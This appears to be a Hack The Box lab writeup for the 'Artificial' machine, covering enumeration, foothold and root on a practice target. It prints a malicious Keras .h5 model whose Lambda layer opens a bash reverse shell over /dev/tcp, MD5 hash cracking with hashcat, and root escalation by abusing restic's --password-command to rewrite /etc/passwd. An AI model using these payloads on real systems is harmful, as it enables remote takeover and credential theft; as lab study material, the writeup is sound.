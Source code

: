 ```yaml
---
title: HTB Artificial - Writeup
date: 2025-07-25 22:12:00 +0330
categories: [Writeup]
tags: [cve]
description: My writeup of Artificial from Hack The Box 

---
```


![](assets/img/artificial.png)
## - **Recon & Enum**
As always starting off with an Nmap scan
```
$ nmap -sC -sV -oN artificial_htb_nmap --min-rate=1000 artificial.htb
Nmap scan report for artificial.htb (10.10.11.74)
Host is up (0.45s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
After logging in, we can upload `.h5` files which are AI models. There are also a `requirements.txt` which says tensorflow 2.13.1 and a Dockerfile.
First I tried building the docker image and running the container (because my python version does not support tensorflow yet) but I ran out of storage. so I installed `pyenv` and installed python3.8. After a bit of reasearch I found out tensorflow version 2.13 is vulnerable to [CVE-2024-3660](https://markaicode.com/tensorflow-cve-2024-3660-update-data-leak-prevention/), so with that information I tweaked the example code provided in the main page of artificital.htb to get a reverse shell.
```python
import numpy as np
import pandas as pd
import tensorflow as tf
from tensorflow import keras
from tensorflow.keras import layers
import socket
import subprocess

np.random.seed(42)

# Create hourly data for a week
hours = np.arange(0, 24 * 7)
profits = np.random.rand(len(hours)) * 100

# Create a DataFrame
data = pd.DataFrame({
    'hour': hours,
    'profit': profits
})

X = data['hour'].values.reshape(-1, 1)
y = data['profit'].values

def titap(x):
    try:
        __import__('os').system("bash -c '/bin/sh -i >& /dev/tcp/*.*.*.*/1234 0>&1'")
    except:
        pass
    return x

# Build the model

model = keras.Sequential([
    layers.Dense(64, activation='relu'),
    layers.Dense(64, activation='relu'),
    layers.Dense(1),
    layers.Lambda(titap)
])

# Compile the model
model.compile(optimizer='adam', loss='mean_squared_error')

# Train the model
model.fit(X, y, epochs=100, verbose=1)

# Save the model
model.save('profits_model.h5')
```

## - **Foothold**

and after clocking on "View Predictions", we get a shell.
```
listening on [any] 1234 ...
connect to [*.*.*.*] from (UNKNOWN) [10.10.11.74] 41924
/bin/sh: 0: can't access tty; job control turned off
$ python3 -V
Python 3.8.10
$ python3 -c "import pty;pty.spawn('/bin/bash')"
app@artificial:~/app$
```

Checking the `app.py`, I discovered a database and a password `Sup3rS3cr3tKey4rtIfici4L` (which turned out to be useless). from the database I got the hash for user `gael` and some other users.
```
sqlite> SELECT * FROM user;
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
```

I used hashcat to crack the hash
```shell
$ hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
```

```shell
$ hashcat --show hash.txt -m 0                          
c99175974b6e192936d97224638a34f8:mattp005numbertwo
```

## - **User**
and the user flag is ours!
```
gael@artificial:~$ cat user.txt
781a0825*******************4eae0
```

Here we can see ports `5000` and `9898` are localy accessible and also we have some application files in `/opt`.
```
gael@artificial:~$ ss -tuln
Netid    State     Recv-Q    Send-Q         Local Address:Port         Peer Address:Port    Process    
udp      UNCONN    0         0              127.0.0.53%lo:53                0.0.0.0:*                  
tcp      LISTEN    0         2048               127.0.0.1:5000              0.0.0.0:*                  
tcp      LISTEN    0         4096               127.0.0.1:9898              0.0.0.0:*                  
tcp      LISTEN    0         511                  0.0.0.0:80                0.0.0.0:*                  
tcp      LISTEN    0         4096           127.0.0.53%lo:53                0.0.0.0:*                  
tcp      LISTEN    0         128                  0.0.0.0:22                0.0.0.0:*                  
tcp      LISTEN    0         511                     [::]:80                   [::]:*                  
tcp      LISTEN    0         128                     [::]:22                   [::]:*                  
gael@artificial:~$ ls /opt
backrest  config  data  index  keys  locks  snapshots
```

port 5000 was the flask application and 9898 was Backrest V1.7.2. I forwarded the port back to my computer and went to the page and it required login. at first I tried some default usernames with the discovered passwords so far but no luck. inside `/opt/backrest/.config/backrest/` there was a config.json file which most probably included the username nad password but user gael did not have access. after using linpeas I noticed a backfile `/var/backups/backrest_backup.tar.gz` which had the config.json in it with the password hash.
```
gael@artificial:/tmp$ tar -xvf backrest_backup.tar.gz

gael@artificial:/tmp/backrest/.config$ cat backrest/config.json 
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
    "disabled": false,
    "users": [
      {
        "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
      }
    ]
  }
}

```

by the looks of the hash, it is base64 encoded. then we crack it with hashcat and log in to the backrest page.
```shell
$ echo JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP | base64 -d
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO   
```

```shell
hashcat -m 3200 -a 0 -o cracked.txt hash2.txt /usr/share/wordlists/rockyou.txt
```

## - **Root**

Here we can create repositories and after that we can run commands though not normal shell commands, but restic commands! so I went to see what we can do with restic and it's idiotic name.

![](assets/img/artificial_restic.png)

in the help output of restic we can see `backup` and `dump` commands and with those we can read files which we normaly don't have access to, for instance root.txt! but that's like cheating and we need to get a shell.
![](assets/img/artificial_dump.png)
looking back at the help screen a very juicy looking flag called `--password-command` caught my eye.

```
--password-command command         shell command to obtain the repository password from (default: $RESTIC_PASSWORD_COMMAND)
```

after a bit of struggle, I finally got it to work and made passwd writable with `backup /etc/hosts --password-command "chmod 777 /etc/passwd"`.

```
gael@artificial:/opt/backrest$ echo "my_root::0:0:root:/root:/bin/bash" >> /etc/passwd
gael@artificial:/opt/backrest$ su my_root
root@artificial:/opt/backrest# chmod 644 /etc/passwd
root@artificial:/opt/backrest#
```

![](assets/img/artificial_congrats.png)

Done!
and thanks for reading.